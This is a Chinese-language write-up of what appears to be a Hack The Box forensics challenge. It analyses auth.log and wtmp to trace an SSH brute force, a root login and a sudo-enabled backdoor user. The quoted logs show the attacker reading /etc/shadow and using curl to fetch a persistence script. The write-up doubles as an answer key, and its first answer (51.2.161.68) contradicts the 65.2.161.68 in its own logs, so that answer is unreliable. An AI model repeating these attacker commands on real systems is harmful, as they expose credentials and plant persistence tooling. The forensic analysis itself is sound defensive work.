



## Sherlock Scenario
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## 題目素材
壓縮檔中有兩個檔案
- auth.log
- wtmp

### auth.log
問 ChatGPT：

`auth.log` 是一種記錄系統中使用者身份驗證（authentication）相關事件的日誌檔案。在許多 Linux 和 Unix 系統中，`auth.log` 通常位於 `/var/log` 目錄下，用於記錄使用者登入、登出、密碼驗證失敗等事件。這些事件可以幫助系統管理員追蹤和監控系統的安全性，並在必要時進行調查和排除問題。

`auth.log` 的格式通常是以文本形式記錄，每行包含一條事件記錄。以下是一個典型的範例：
```bash
May  9 12:34:56 hostname sshd[1234]: Failed password for user1 from 192.168.1.100 port 12345 ssh2
```

這裡是一些可能出現在 `auth.log` 中的重要元素：
- **日期和時間:** 事件發生的時間，通常以年月日時分秒的格式出現，如上例中的 `May 9 12:34:56`。
- **主機名稱:** 事件的主機名稱或 IP 地址，如上例中的 `hostname`。
- **服務:** 產生事件的程序或服務，比如 `sshd` 表示 SSH 服務相關的事件。
- **行程 ID:** Process ID (PID) 是記錄事件的相關行程的唯一識別符，通常出現在方括號中，如上例中的 `[1234]`。
- **事件訊息:** 事件的具體內容，可能包括使用者名稱、IP、Port 等，如上例中的 `Failed password for user1 from 192.168.1.100 port 12345 ssh2`。

總的來說，`auth.log` 的格式主要是一個結構化的文本格式，用於記錄系統中身份驗證相關事件的細節資訊，以便於系統管理員進行分析。

### wtmp
一樣問 ChatGPT：

`wtmp`（又稱為 "who" 代表 "who is on"）是一個記錄系統中使用者登入和登出事件的日誌檔案。它通常用於追蹤系統中的使用者活動，包括登入和登出時間、登入的使用者名稱、登入方式等。在許多 Unix 和 Linux 系統中，`wtmp` 檔案位於 `/var/log` 目錄下。

`wtmp` 的格式通常是二進制格式，不像 `auth.log` 那樣易讀。但是，可以使用 `last` 或 `who` 命令來查看 `wtmp` 檔案中的內容，它們會解析 `wtmp` 檔案並以易讀的格式顯示登入和登出事件的紀錄。

以下是 `last` 命令顯示的一個例子：
```bash
user1  pts/0        192.168.1.100    Mon May  9 12:34 - 14:56  (02:21)
user2  pts/1        192.168.1.101    Sun May  8 08:00 - 10:15  (02:15)
```

這裡是一些可能在 `last` 命令輸出中出現的欄位：
- **使用者名稱:** 登入系統的使用者名稱。
- **tty:** 使用者登入的終端（tty）。
- **遠端地址:** 使用者登入的遠端 IP 位址。
- **登入時間:** 使用者登入系統的時間。
- **登出時間:** 使用者登出系統的時間。
- **登入持續時間:** 使用者登入系統的時間長度。

`wtmp` 是系統監控和安全性分析的重要工具，可用於追蹤使用者活動和識別潛在的安全問題。

要讀取 `wtmp` 檔案的二進制格式需要一些特殊的工具或程式庫來解析。可以自行編寫程式來讀取，或在 Unix 和 Linux 系統中使用 `utmpdump`。

## 問題

### Question 1
Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

`grep` 一下 `auth.log` 中 `sshd` 一直登入失敗的紀錄，看是哪個 IP 被攻擊者使用。只有 65.2.161.68 這一個 IP 有失敗多次的紀錄。

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep sshd | grep Failed | cut -d' ' -f6-
sshd[2327]: Failed password for invalid user admin from 65.2.161.68 port 46392 ssh2
sshd[2331]: Failed password for invalid user admin from 65.2.161.68 port 46436 ssh2
sshd[2332]: Failed password for invalid user admin from 65.2.161.68 port 46444 ssh2
sshd[2335]: Failed password for invalid user admin from 65.2.161.68 port 46460 ssh2
sshd[2337]: Failed password for invalid user admin from 65.2.161.68 port 46498 ssh2
sshd[2334]: Failed password for invalid user admin from 65.2.161.68 port 46454 ssh2
sshd[2338]: Failed password for backup from 65.2.161.68 port 46512 ssh2
sshd[2336]: Failed password for backup from 65.2.161.68 port 46468 ssh2
sshd[2330]: Failed password for invalid user admin from 65.2.161.68 port 46422 ssh2
sshd[2328]: Failed password for invalid user admin from 65.2.161.68 port 46390 ssh2
sshd[2329]: Failed password for invalid user admin from 65.2.161.68 port 46414 ssh2
sshd[2333]: Failed password for invalid user admin from 65.2.161.68 port 46452 ssh2
sshd[2352]: Failed password for backup from 65.2.161.68 port 46568 ssh2
sshd[2351]: Failed password for backup from 65.2.161.68 port 46538 ssh2
sshd[2355]: Failed password for backup from 65.2.161.68 port 46576 ssh2
sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
sshd[2357]: Failed password for backup from 65.2.161.68 port 46582 ssh2
sshd[2359]: Failed password for invalid user server_adm from 65.2.161.68 port 46596 ssh2
sshd[2361]: Failed password for invalid user server_adm from 65.2.161.68 port 46614 ssh2
sshd[2368]: Failed password for invalid user server_adm from 65.2.161.68 port 46676 ssh2
sshd[2369]: Failed password for invalid user server_adm from 65.2.161.68 port 46682 ssh2
sshd[2365]: Failed password for invalid user server_adm from 65.2.161.68 port 46644 ssh2
sshd[2366]: Failed password for invalid user server_adm from 65.2.161.68 port 46648 ssh2
sshd[2364]: Failed password for invalid user server_adm from 65.2.161.68 port 46632 ssh2
sshd[2367]: Failed password for invalid user server_adm from 65.2.161.68 port 46664 ssh2
sshd[2363]: Failed password for invalid user server_adm from 65.2.161.68 port 46620 ssh2
sshd[2377]: Failed password for invalid user server_adm from 65.2.161.68 port 46684 ssh2
sshd[2379]: Failed password for invalid user server_adm from 65.2.161.68 port 46698 ssh2
sshd[2380]: Failed password for invalid user server_adm from 65.2.161.68 port 46710 ssh2
sshd[2383]: Failed password for invalid user svc_account from 65.2.161.68 port 46722 ssh2
sshd[2384]: Failed password for invalid user svc_account from 65.2.161.68 port 46732 ssh2
sshd[2387]: Failed password for invalid user svc_account from 65.2.161.68 port 46742 ssh2
sshd[2389]: Failed password for invalid user svc_account from 65.2.161.68 port 46744 ssh2
sshd[2391]: Failed password for invalid user svc_account from 65.2.161.68 port 46750 ssh2
sshd[2393]: Failed password for invalid user svc_account from 65.2.161.68 port 46774 ssh2
sshd[2394]: Failed password for invalid user svc_account from 65.2.161.68 port 46786 ssh2
sshd[2397]: Failed password for invalid user svc_account from 65.2.161.68 port 46814 ssh2
sshd[2398]: Failed password for invalid user svc_account from 65.2.161.68 port 46840 ssh2
sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
sshd[2400]: Failed password for invalid user svc_account from 65.2.161.68 port 46854 ssh2
sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
sshd[2423]: Failed password for backup from 65.2.161.68 port 34834 ssh2
sshd[2424]: Failed password for backup from 65.2.161.68 port 34856 ssh2
```
**Ans: 51.2.161.68**

### Question 2
The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

一樣 `grep` 一下 `auth.log`，這次要找的是成功登入的紀錄，關鍵字是 Accepted。攻擊者的 IP 成功登入的使用者是 `root`。

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep sshd | grep Accepted | cut -d' ' -f6-
sshd[1465]: Accepted password for root from 203.101.190.9 port 42825 ssh2
sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
sshd[2667]: Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

**Ans: root**

### Question 3
Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

暴力破解僅嘗試密碼是否可以登入，成功登入就會馬上登出。後續待攻擊者自行登入利用。一開始先回答了 `auth.log` 的時間戳，結果是錯誤的答案，確認一下提示得知要參考的是 `wtmp` 的時間。

不清楚是不是我的環境問題，我在 MacBook Air M1 上面跑 ARM 的 Kali Linux，然後用 `utmpdump` 讀 `wtmp` 檔的時候會發生解析錯誤。

也許我是遇到跟[這篇 Writeup](https://medium.com/@neiwad/htb-sherlock-brutus-writeup-df2f16a6fe03) 一樣的問題🤔。

因此，我另外找了別的方法來讀 `wtmp` 檔，分別找了 [Python](https://medium.com/@realjesseshelley/parsing-and-reading-the-wtmp-file-3edd3f5bc958) 和 [Ruby](https://github.com/fluent-plugins-nursery/linux-utmpx) 實作的程式。

- Python 程式也是為了解這題，但我使用時遇到了時區的問題，程式輸出的是我的當地時間，然而題目是用 UTC 時間。這邊需要修改程式來改成 UTC 或自己回推：
    ```python
    # print(f"{entry.time} | {entry.type} | {entry.host} | {entry.user}")
    print(f"{entry.time.astimezone(pytz.utc)} | {entry.type} | {entry.host} | {entry.user}")
    ```
- Ruby 程式輸出的是 Unix timestamp，只需要轉換一下就可以了。

問題修正完之後，最終結果如下，時間戳是 2024-03-06 06:32:45。

- Python
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
    └─$ python3 wtmp.py wtmp
    <snip>
    2024-03-06 06:19:55.151913+00:00 | UTmpRecordType.user_process | 203.101.190.9 | root
    2024-03-06 06:32:45.387923+00:00 | UTmpRecordType.user_process | 65.2.161.68 | root
    2024-03-06 06:37:24.590579+00:00 | UTmpRecordType.dead_process |  | 
    2024-03-06 06:37:35.475575+00:00 | UTmpRecordType.user_process | 65.2.161.68 | cyberjunkie
    ```
- Ruby
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
    └─$ irb
    irb(main):001:0> require "linux/utmpx"
    => true
    irb(main):002:0> 
    irb(main):003:0> io = File.open("wtmp")
    => #<File:wtmp>
    irb(main):004:0> parser = Linux::Utmpx::UtmpxParser.new
    => 
    {:ut_type=>0,
    ...
    irb(main):005:1* while !io.eof? do
    irb(main):006:1*   puts parser.read(io)
    irb(main):007:0> end
    <snip>
    {:ut_type=>7, :pad_type=>0, :ut_pid=>1583, :ut_line=>"pts/0", :ut_id=>"ts/0", :ut_user=>"root", :ut_host=>"203.101.190.9", :ut_exit=>{:e_termination=>0, :e_exit=>0}, :ut_session=>0, :ut_tv=>{:tv_sec=>1709705995, :tv_usec=>151913}, :ut_addr_v6=>[-882524663, 0, 0, 0], :reserved=>"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"}
    {:ut_type=>7, :pad_type=>0, :ut_pid=>2549, :ut_line=>"pts/1", :ut_id=>"ts/1", :ut_user=>"root", :ut_host=>"65.2.161.68", :ut_exit=>{:e_termination=>0, :e_exit=>0}, :ut_session=>0, :ut_tv=>{:tv_sec=>1709706765, :tv_usec=>387923}, :ut_addr_v6=>[1090691396, 0, 0, 0], :reserved=>"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"}
    {:ut_type=>8, :pad_type=>0, :ut_pid=>2491, :ut_line=>"pts/1", :ut_id=>"", :ut_user=>"", :ut_host=>"", :ut_exit=>{:e_termination=>0, :e_exit=>0}, :ut_session=>0, :ut_tv=>{:tv_sec=>1709707044, :tv_usec=>590579}, :ut_addr_v6=>[0, 0, 0, 0], :reserved=>"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"}
    {:ut_type=>7, :pad_type=>0, :ut_pid=>2667, :ut_line=>"pts/1", :ut_id=>"ts/1", :ut_user=>"cyberjunkie", :ut_host=>"65.2.161.68", :ut_exit=>{:e_termination=>0, :e_exit=>0}, :ut_session=>0, :ut_tv=>{:tv_sec=>1709707055, :tv_usec=>475575}, :ut_addr_v6=>[1090691396, 0, 0, 0], :reserved=>"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"}
    ```

**Ans: 2024-03-06 06:32:45**

### Question 4
SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

`grep` 一下 `auth.log` 中 New session 的紀錄，對應時間建立的工作階段編號是 37。

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "New session"
Mar  6 06:19:54 ip-172-31-35-28 systemd-logind[411]: New session 6 of user root.
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:34 ip-172-31-35-28 systemd-logind[411]: New session 49 of user cyberjunkie.
```

**Ans: 37**

### Question 5
The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

攻擊者新增了一個使用者，並賦予他更高的權限，相關的指令是 `groupadd`，所以 `grep` 一下 add 看看。攻擊者新增了一個叫 `cyberjunkie` 的使用者，並把它加進 `sudo` 群組。 

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "add"        
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar  6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar  6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

**Ans: cyberjunkie**

### Question 6
What is the MITRE ATT&CK sub-technique ID used for persistence?

攻擊者新建了一個本地使用者。




**Ans: T1136.001**

### Question 7
How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

從 `auth.log` 尋找 session 37 的相關紀錄，然後計算開始到結束的時間差。結果送出答案後是錯的，所以改用 `wtmp` 的時間試試看，Bingo！

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "session 37"
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```



**Ans: 279**

### Question 8
The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

攻擊者新建的後門帳戶使用高權限去下載惡意腳本，前面提到該帳戶被加入 `sudo` 群組，所以 `grep` 字串 `sudo` 發現有兩個命令被執行，其中一個正是透過 `curl` 下載腳本。

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "sudo"      
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Ans: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh**